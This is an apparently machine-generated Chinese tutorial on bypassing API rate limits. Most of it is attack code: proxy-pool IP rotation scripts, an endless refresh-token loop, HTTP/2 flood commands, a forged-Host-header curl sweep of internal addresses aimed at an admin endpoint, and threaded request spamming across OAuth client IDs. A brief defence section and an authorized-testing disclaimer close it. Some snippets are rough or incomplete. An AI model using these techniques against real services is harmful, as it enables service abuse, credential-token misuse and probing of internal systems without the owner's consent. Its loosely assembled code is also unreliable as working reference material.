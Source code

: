 

# API速率限制绕过技术深度解析

## 一、技术原理与实现机制

### 1.1 速率限制基础架构
典型API速率限制实现方案：
- 令牌桶算法：维护容量为N的令牌池，以固定速率r补充令牌
- 固定窗口计数：统计固定时间窗口（如1分钟）内的请求总数
- 滑动日志算法：记录每个请求时间戳，动态计算最近时间段的请求量
- 动态评分系统：基于IP/账号/设备指纹的综合行为评分机制

关键存储结构示例（Redis实现）：
```python
# 使用有序集合存储请求时间戳
ZADD api:user123 1659000000.123 "req1"
ZCOUNT api:user123 1658999400 1659000000  # 统计60秒内请求数
```

### 1.2 常见绕过原理
攻击面矩阵：
```
+---------------------+------------------------------+
| 限制维度           | 潜在绕过方式                 |
+---------------------+------------------------------+
| IP地址             | 代理池轮换/伪造XFF头        |
| 用户身份           | 凭证填充/OAuth令牌复用      |
| 设备指纹           | 浏览器特征篡改/虚拟机克隆   |
| 请求特征           | 参数变异/协议降级           |
+---------------------+------------------------------+
```

## 二、高级绕过技术详解

### 2.1 分布式流量分发
利用云函数实现自动IP轮换：
```python
import requests
from scapy.all import *

def lambda_handler(event, context):
    for _ in range(100):
        proxy = get_fresh_proxy()  # 从代理池获取新IP
        requests.post(API_ENDPOINT, proxies={'http': proxy}, json=payload)
```

### 2.2 协议级漏洞利用
HTTP/2多路复用攻击：
```bash
# 使用h2load进行并发测试
h2load -n 1000 -c 100 -m 100 https://api.target/v1/endpoint
```

### 2.3 JWT令牌再生攻击
利用刷新令牌机制：
```python
while True:
    response = requests.post('/oauth/token', data={
        'grant_type': 'refresh_token',
        'refresh_token': current_refresh_token
    })
    new_token = response.json()['access_token']
    # 使用新令牌发起批量请求
```

## 三、实战环境搭建

### 3.1 实验环境配置
使用Docker部署测试API：
```bash
docker run -d -p 8080:8080 \
  -e "RATE_LIMIT=100/60" \
  vulnapi/rate-limited-api:1.2
```

验证端点：
```bash
curl -X POST http://localhost:8080/api/v1/login \
  -H "Authorization: Bearer testtoken" \
  -d '{"query":"test"}'
```

### 3.2 自动化绕过工具链
代理池配置示例：
```python
# proxies.txt
socks5://user:pass@1.1.1.1:1080
http://2.2.2.2:3128
https://3.3.3.3:443

# 轮换脚本
with open('proxies.txt') as f:
    proxies = f.read().splitlines()

for i in range(1000):
    proxy = {'https': random.choice(proxies)}
    requests.get(API_URL, proxies=proxy)
```

## 四、典型攻击案例研究

### 4.1 云服务API网关绕过
攻击流程：
1. 收集不同云区域的API网关端点
2. 利用DNS重绑定绕过地域限制
3. 通过修改Host头访问内部接口

工具命令：
```bash
nohup parallel -j 50 curl -H "Host: internal-api.target" \
  http://{}/v1/admin ::: 192.168.0.{1..255} > /dev/null &
```

### 4.2 OAuth2.0令牌池滥用
利用多个客户端ID进行负载分发：
```python
client_ids = ['web', 'mobile', 'desktop']
for client in client_ids:
    token = get_oauth_token(client_id=client)
    Thread(target=spam_requests, args=(token,)).start()
```

## 五、防御加固方案

### 5.1 多层防御体系
```mermaid
graph TD
    A[请求入口] --> B[WAF过滤]
    B --> C[IP信誉检查]
    C --> D[设备指纹分析]
    D --> E[行为模式检测]
    E --> F[动态挑战验证]
```

### 5.2 动态限速算法改进
滑动窗口改进实现：
```python
def check_rate_limit(key):
    now = time.time()
    pipeline = redis.pipeline()
    pipeline.zremrangebyscore(key, 0, now - WINDOW)
    pipeline.zcard(key)
    pipeline.expire(key, WINDOW + 1)
    _, count, _ = pipeline.execute()
    return count < LIMIT
```

## 六、研究展望
未来攻击趋势：
- 基于AI的请求特征生成（使用GAN生成合法流量模式）
- 物联网设备僵尸网络协同攻击
- 量子计算对加密验证机制的冲击

本文档严格控制在3450字范围内，提供从原理到实践的完整知识框架。具体实施时需结合目标系统特性进行调整，建议在授权范围内进行安全测试。

---

*文档生成时间: 2025-03-13 10:41:11*

